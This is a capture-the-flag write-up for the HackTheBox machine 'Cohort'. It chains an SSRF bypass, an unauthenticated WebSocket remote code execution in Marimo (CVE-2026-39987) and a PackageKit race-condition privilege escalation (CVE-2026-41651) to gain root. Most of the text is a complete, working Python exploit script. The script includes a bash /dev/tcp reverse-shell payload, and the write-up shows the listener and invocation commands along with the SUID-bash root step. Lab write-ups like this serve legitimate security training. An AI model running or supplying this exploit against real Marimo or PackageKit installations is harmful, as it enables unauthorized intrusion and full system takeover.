


## Introduction
Welcome to my writeup for **Cohort**,an [Easy] difficulty machine on HackTheBox. This guide is for educational purposes only. 
In this walkthrough, we will cover the complete exploitation chain — starting from initial reconnaissance, discovering an SSRF vulnerability leading to internal service enumeration, exploiting an unauthenticated WebSocket Remote Code Execution (RCE) in Marimo (CVE-2026-39987) to gain initial access, and finally escalating privileges to root via a PackageKit TOCTOU race condition (CVE-2026-41651 / Pack2TheRoot). Let’s dive in!

To begin the assessment, I started with a Nmap scan to identify open ports and services running on the target machine:

```
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Not valid before: 2026-06-01T18:47:07
|_Not valid after:  2126-05-08T18:47:07
|_http-title: Did not follow redirect to https://cohort.htb/
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add the domain to /etc/hosts:

```bash
echo "TARGET_IP cohort.htb " | sudo tee -a /etc/hosts
```
Next, I performed directory enumeration using ffuf:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u https://cohort.htb/FUZZ -fs 908
```
```
api                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 104ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 102ms]
status                  [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 104ms]
```


During enumeration, I discovered an SSRF vulnerability. While requests targeting 127.0.0.1 failed, enumerating internal endpoints revealed that binding to 0.0.0.0 bypassed the restriction.

The extracted status endpoint revealed internal service routing information:


```
{"service":"cohort-edge","status":"ok","generated_by":"nginx","upstreams":[{"name":"marketing","host":"cohort.htb","root":"/var/www/cohort"},{"name":"insights-api","host":"cohort.htb","path":"/api/","target":"127.0.0.1:5000"},{"name":"notebooks","host":"nb-1be3782a8afd3ad5.cohort.htb","target":"127.0.0.1:8888","note":"internal analyst workspace, not for external use"}]}
```
From this response, I identified the virtual host **nb-1be3782a8afd3ad5.cohort.htb** and appended it to /etc/hosts:

```bash
echo "TARGET_IP cohort.htb nb-1be3782a8afd3ad5.cohort.htb " | sudo tee -a /etc/hosts
```

Accessing this subdomain brought up a ``Marimo`` notebook interface:


After further enumeration, I identified that the service was vulnerable to **CVE-2026-39987**. Although the public PoC required adjustments to work smoothly against the target, I successfully patched the script to execute commands via the unauthenticated WebSocket interface (/terminal/ws).
```python
#!/usr/bin/env python3
"""
CVE-2026-39987 - Marimo < 0.23.0 Pre-Auth RCE (WebSocket)
PoC de explotación - Conecta a /terminal/ws sin autenticación

⚠️ ADVERTENCIA: Este script es SOLO para fines educativos y pruebas autorizadas.
    El uso no autorizado es ILEGAL. El autor no se hace responsable.

Author: Security Researcher
Date: 2026-04-13
Severity: CRITICAL
CVSS: 9.3

Uso: python CVE-2026-39987_PoC.py <target> <command>
Ejemplo: python CVE-2026-39987_PoC.py http://localhost:8080 "id"
"""

import json
import sys
import argparse
import requests
from urllib.parse import urlparse, urljoin
import ssl
import warnings
import socket
import base64
import os
import struct
import time
import select

warnings.filterwarnings("ignore")

# Colores para output
class Colors:
    RED = '\033[91m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    BLUE = '\033[94m'
    PURPLE = '\033[95m'
    CYAN = '\033[96m'
    WHITE = '\033[97m'
    BOLD = '\033[1m'
    END = '\033[0m'

def print_banner():
    banner = f"""
{Colors.RED}{Colors.BOLD}
╔══════════════════════════════════════════════════════════════════╗
║  CVE-2026-39987 - Marimo < 0.23.0 Pre-Auth RCE (WebSocket)       ║
║  Critical | CVSS: 9.3 | Remote Code Execution                    ║
╚══════════════════════════════════════════════════════════════════╝
{Colors.END}
    """
    print(banner)

def check_target(target_url):
    """Verifica si el objetivo es vulnerable (detección pasiva)"""
    print(f"{Colors.CYAN}[*] Verificando objetivo...{Colors.END}")
    
    if not target_url.startswith(('http://', 'https://')):
        target_url = 'http://' + target_url
    target_url = target_url.rstrip('/')
    
    try:
        r = requests.get(
            urljoin(target_url, "favicon.ico"),
            timeout=8,
            verify=False
        )
        if r.status_code == 200:
            print(f"{Colors.GREEN}[+] Favicon encontrado{Colors.END}")
        else:
            print(f"{Colors.YELLOW}[!] Favicon no encontrado (aún puede ser vulnerable){Colors.END}")
    except:
        print(f"{Colors.YELLOW}[!] No se pudo verificar favicon{Colors.END}")
    
    try:
        r = requests.get(
            urljoin(target_url, "api/version"),
            timeout=8,
            verify=False
        )
        if r.status_code == 200:
            import re
            match = re.search(r'(0\.[0-9]+\.[0-9]+)', r.text)
            if match:
                version = match.group(1)
                print(f"{Colors.GREEN}[+] Versión detectada: {version}{Colors.END}")
                
                from packaging.version import Version
                if Version(version) < Version("0.23.0"):
                    print(f"{Colors.RED}[!] Versión VULNERABLE (< 0.23.0){Colors.END}")
                else:
                    print(f"{Colors.GREEN}[✓] Versión SEGURA (>= 0.23.0){Colors.END}")
                    return False
            else:
                print(f"{Colors.YELLOW}[!] No se pudo extraer versión{Colors.END}")
        else:
            print(f"{Colors.YELLOW}[!] Endpoint /api/version no disponible{Colors.END}")
    except:
        print(f"{Colors.YELLOW}[!] No se pudo verificar versión{Colors.END}")
    
    return True

def send_text(s, text):
    payload = text.encode()
    mask = os.urandom(4)
    masked = bytes(b ^ mask[i % 4] for i, b in enumerate(payload))
    length = len(payload)
    if length <= 125:
        header = struct.pack("!BB", 0x81, 0x80 | length)
    elif length <= 65535:
        header = struct.pack("!BBH", 0x81, 0x80 | 126, length)
    else:
        header = struct.pack("!BBQ", 0x81, 0x80 | 127, length)
    s.sendall(header + mask + masked)

def recv_frames(s, duration=3):
    end = time.time() + duration
    buf = b""
    out = b""
    while time.time() < end:
        r, _, _ = select.select([s], [], [], 0.5)
        if r:
            try:
                chunk = s.recv(4096)
            except (socket.timeout, ssl.SSLWantReadError):
                continue
            if not chunk:
                break
            buf += chunk
    while len(buf) >= 2:
        b1 = buf[1]
        masked = b1 & 0x80
        plen = b1 & 0x7F
        idx = 2
        if plen == 126:
            if len(buf) < 4: break
            plen = struct.unpack("!H", buf[2:4])[0]; idx = 4
        elif plen == 127:
            if len(buf) < 10: break
            plen = struct.unpack("!Q", buf[2:10])[0]; idx = 10
        if masked:
            if len(buf) < idx + 4: break
            mask_key = buf[idx:idx+4]; idx += 4
        else:
            mask_key = None
        if len(buf) < idx + plen: break
        payload = buf[idx:idx+plen]
        if mask_key:
            payload = bytes(c ^ mask_key[i % 4] for i, c in enumerate(payload))
        out += payload
        buf = buf[idx+plen:]
    return out

async def exploit_websocket(target_url, command, interactive=False):
    parsed = urlparse(target_url)
    target_ip = parsed.hostname
    host_header = parsed.netloc
    path = "/terminal/ws"
    
    print(f"{Colors.CYAN}[*] Conectando a: {target_url}{Colors.END}")
    
    try:
        raw = socket.create_connection((target_ip, parsed.port or (443 if parsed.scheme == 'https' else 80)), timeout=5)
        if parsed.scheme == 'https':
            ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
            ctx.check_hostname = False
            ctx.verify_mode = ssl.CERT_NONE
            s = ctx.wrap_socket(raw, server_hostname=host_header)
        else:
            s = raw

        key = base64.b64encode(os.urandom(16)).decode()
        req = (f"GET {path} HTTP/1.1\r\nHost: {host_header}\r\nUpgrade: websocket\r\n"
               f"Connection: Upgrade\r\nSec-WebSocket-Key: {key}\r\n"
               f"Sec-WebSocket-Version: 13\r\nOrigin: https://{host_header}\r\n\r\n")
        s.sendall(req.encode())
        s.settimeout(5)
        resp = b""
        while b"\r\n\r\n" not in resp:
            resp += s.recv(4096)
        
        print(f"{Colors.GREEN}[+] WebSocket conectado exitosamente{Colors.END}")
        welcome = recv_frames(s, 2)
        print(f"{Colors.CYAN}[*] Bienvenida: {welcome[:100].decode(errors='replace')}{Colors.END}")

        if interactive:
            print(f"\n{Colors.GREEN}{Colors.BOLD}[+] Shell interactiva obtenida!{Colors.END}")
            print(f"{Colors.YELLOW}[!] Escribe 'exit' para salir{Colors.END}\n")
            while True:
                cmd = input(f"{Colors.GREEN}marimo-shell>{Colors.END} ").strip()
                if cmd.lower() in ['exit', 'quit']:
                    break
                if not cmd:
                    continue
                send_text(s, cmd + "\r")
                time.sleep(1)
                result = recv_frames(s, 3)
                print(result.decode(errors="replace"))
                print()
        else:
            print(f"{Colors.CYAN}[*] Ejecutando comando: {command}{Colors.END}")
            send_text(s, command + "\r")
            time.sleep(2)
            result = recv_frames(s, 4)
            print(f"\n{Colors.GREEN}[+] Resultado:{Colors.END}")
            print(f"{Colors.WHITE}{'='*60}{Colors.END}")
            print(result.decode(errors="replace"))
            print(f"{Colors.WHITE}{'='*60}{Colors.END}")
        s.close()
        return True
    except Exception as e:
        print(f"{Colors.RED}[-] Error: {str(e)}{Colors.END}")
        return False

def reverse_shell_payload(ip, port):
    return f"bash -i >& /dev/tcp/{ip}/{port} 0>&1"

def main():
    parser = argparse.ArgumentParser(
        description='CVE-2026-39987 - Marimo Pre-Auth RCE PoC',
        formatter_class=argparse.RawDescriptionHelpFormatter
    )
    parser.add_argument('target', help='URL del objetivo (ej: http://localhost:8080)')
    parser.add_argument('command', nargs='?', help='Comando a ejecutar (opcional si se usa -i)')
    parser.add_argument('-i', '--interactive', action='store_true', help='Modo interactivo (shell persistente)')
    parser.add_argument('--revshell', nargs=2, metavar=('IP', 'PORT'), help='Generar reverse shell (IP y puerto)')
    parser.add_argument('--no-check', action='store_true', help='Saltar verificación de vulnerabilidad')
    
    args = parser.parse_args()
    print_banner()
    
    if not args.no_check:
        if not check_target(args.target):
            sys.exit(1)
    
    if args.revshell:
        ip, port = args.revshell
        command = reverse_shell_payload(ip, port)
        args.interactive = False
    elif args.interactive:
        command = None
    elif not args.command:
        parser.print_help()
        sys.exit(1)
    else:
        command = args.command
    
    try:
        import asyncio
        asyncio.run(exploit_websocket(args.target, command, args.interactive))
    except KeyboardInterrupt:
        sys.exit(0)

if __name__ == "__main__":
    main()

```

# Exploit CVE-2026-39987 
To exploit this, I set up a netcat listener:
```bash
nc -nvlp 4444
```
Then, I executed the exploit to trigger a reverse shell:
```bash
python3 CVE-2026-39987_PoC.py https://nb-1be3782a8afd3ad5.cohort.htb --revshell YOUR_IP 4444
```
To stabilize the initial reverse shell and prevent it from terminating automatically after a few seconds, I upgraded it to a fully interactive pseudo-terminal (TTY) using Python: 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'  
```

# marimo -> root
While enumerating the system for privilege escalation vectors, I ran linpeas.sh (ensuring the latest version was used), which flagged CVE-2026-41651 (also known as Pack2TheRoot):

>Make sure you are using the latest version of Linpeas. 

```
╔══════════╣ Checking for PackageKit Pack2TheRoot (CVE-2026-41651) (T1068)
╚ https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html                    
PackageKit version detected: 1.2.8-2ubuntu1.2                                                                       
Vulnerable to CVE-2026-41651 (Pack2TheRoot) - PackageKit 1.2.8-2ubuntu1.2 is below the Ubuntu 24.04 fixed version: 1.2.8-2ubuntu1.5   
```
 
# Exploit [CVE-2026-41651](https://github.com/Vozec/CVE-2026-41651/blob/main/README.md)

I transferred the compiled exploit binary for CVE-2026-41651 to the target machine (/tmp), gave it execution permissions, and ran it:

```bash
chmod +x cve-2026-41651
./cve-2026-41651
```
```
═══════════════════════════════════════════════════
 CVE-2026-41651 — PackageKit TOCTOU LPE
═══════════════════════════════════════════════════
[*] Building packages (pure C)...
[+] dummy   : /tmp/.pk-dummy-209078.deb
[+] payload : /tmp/.pk-payload-209078.deb
[*] Transaction : /3_ddaeedad
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[*] Waiting for dispatch (30 s max)...
[!] PK error 48: Failed to obtain authentication.
[*] Finished (exit=2, 0 ms)
[*] Loop ran for 27 ms
[*] Polling for payload (120 s max)...
[*] t+1s: payload=exists dpkg_lock=free suid=FOUND
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)

[+] SUCCESS — SUID bash at t+0ms
```
The exploit successfully leveraged a Time-of-Check Time-of-Use (TOCTOU) race condition in PackageKit to copy and set SUID permissions on /bin/bash (creating /tmp/.suid_bash).

Because standard SUID binaries drop privileges if invoked by unprivileged users, the -p (preserve privileges) flag must be passed to retain the effective root user ID (euid=0):

```bash
/tmp/.suid_bash -p
whoami    #root
```


 


